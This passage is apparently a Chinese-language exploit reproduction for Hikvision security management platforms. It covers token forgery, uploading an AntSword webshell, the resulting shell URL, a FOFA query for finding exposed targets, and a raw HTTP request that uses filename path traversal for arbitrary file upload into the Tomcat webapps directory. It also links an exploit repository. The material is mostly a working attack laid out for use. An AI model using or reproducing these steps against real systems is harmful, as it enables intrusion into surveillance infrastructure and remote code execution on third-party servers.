 构造完token后 可以发现该接口能够正常访问 响应值为200

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093431.png)

直接上传蚁剑生成的webshell  响应包200 显示上传附件成功且返回uuid值：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093433.png)

webshell连接地址为:

http://url/eps/upload/uuid的值.jsp

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093434.png)

exp来自李师傅

github项目地址:

https://github.com/sccmdaveli/hikvision-poc

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093435.png)

  

综合安防管理平台前台任意文件上传

web.body="综合安防管理平台"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093436.png)

利用难度：低

复现过程：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093437.png)

# 方法1

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST xxxxxxxx HTTP/1.1Host: xxxxxxContent-Length: 249Cache-Control: max-age=0Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"Sec-Ch-Ua-Mobile: ?0Sec-Ch-Ua-Platform: "macOS"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36Origin: nullContent-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54aAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: cross-siteSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en;q=0.8Connection: close  
      
    ------WebKitFormBoundary9PggsiM755PLa54aContent-Disposition: form-data; name="file"; filename="../../../tomcat85linux64.1/webapps/els/static/abcd1111.jsp"Content-Type: application/zip  
    wiki kaisa  
    ------WebKitFormBoundary9PggsiM755PLa54a--
